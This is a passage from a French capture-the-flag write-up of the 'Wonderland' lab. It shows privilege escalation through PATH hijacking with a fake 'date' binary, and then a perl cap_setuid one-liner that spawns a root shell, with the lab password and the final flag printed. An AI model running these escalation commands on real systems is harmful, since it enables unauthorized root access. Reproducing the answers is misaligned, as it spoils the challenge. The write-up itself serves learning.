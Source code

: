 On voit que si on arrive à exploiter le fichier on aura les droit de hatter.   

```bash
rabbit@wonderland:/home/rabbit$ echo "/bin/bash" > date
rabbit@wonderland:/home/rabbit$ chmod +x date
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
```

On fabrique un faux fichier date qui va exécuter un shell.  
On change la variable d'environnement PATH pour le notre fichier date soit exécuter en premier.   

```bash
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
hatter@wonderland:/home/rabbit$ cd /home/hatter/
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
```

On obtient un shell avec les droits de hatter.    
Dans le répertoire d'hatter on trouve un fichier password.txt avec un mot de passe à l'intérieur. 

```bash
hatter@wonderland:/home/hatter$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

On voit que perl a la capacité d'être setuid.    

```bash
hatter@wonderland:/home/hatter$ su hatter
Password: 
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";' 
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
# cd ../alice
# cat root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```

On disant à perl d'exécuter un shell avec uid 0 on obtient un shell root.  
On lit le fichier root.txt dans alice et on a notre réponse.   

La réponse est : thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}    